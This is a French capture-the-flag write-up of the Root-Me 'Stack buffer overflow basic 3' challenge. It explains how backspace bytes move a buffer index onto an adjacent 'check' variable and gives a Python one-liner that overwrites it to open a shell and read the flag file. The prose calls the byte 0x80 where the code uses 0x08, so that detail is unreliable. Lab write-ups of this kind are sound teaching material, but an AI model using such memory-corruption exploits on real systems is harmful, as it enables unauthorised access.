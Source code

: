 ```yaml
---
title: "ELF x86 - Stack buffer overflow basic 3"
description: "Write up - Medium"
pubDate: "May 12 2024"
image: /image/image4.jpg
categories:
  - rootme
tags:
  - app-system
  - buffer-overflow
  -stack
---
```


Le but de ce challenge est que check soit égale à 0xbffffabc afin d'ouvrir un shell.

```c
if(check == 0xbffffabc)
        shell();
```

Je ne risque pas de provoquer un débordement de buffer, car dès que count atteint 64, nous entrons dans une boucle infinie avec des messages "Oh no... Sorry !".
Cependant, il est remarquable qu'il est possible de décrémenter count en fournissant au programme un octet 0x80.

```c
 case 0x08:
  count--;
  printf("\b");
  break;
```

De plus, dans le case default, la valeur de i est affectée à buffer[count]:

```c
 default:
  buffer[count] = i;
  count++;
  break;
```

Il est facile de voir la vulnérabilité : si nous parvenons à décrémenter count suffisamment pour que buffer[count] pointe sur check, nous pourrions écrire 0xbffffabc et ainsi prendre le contrôle du shell.
Comme la variable check est juste en dessous de buffer, en ajoutant 4 fois 0x80 (4 fois car sizeof(int) = 4), nous pourrions pointer sur check.

```c
char buffer[64];
  int check;
  int i = 0;
  int count = 0;
```
Je peux donc utiliser la commande ci-dessous pour décrémenter count 4 fois et écrire la séquence d'octets nécessaire pour passer la condition de check, en n'oubliant pas de terminer par ;cat pour maintenir le shell ouvert.

```python
  $ (python -c 'print"\x08"*4+"\xbc\xfa\xff\xbf"';cat)|./ch16
```
Ainsi, je peux afficher le contenu de .passwd et récupérer le flag.
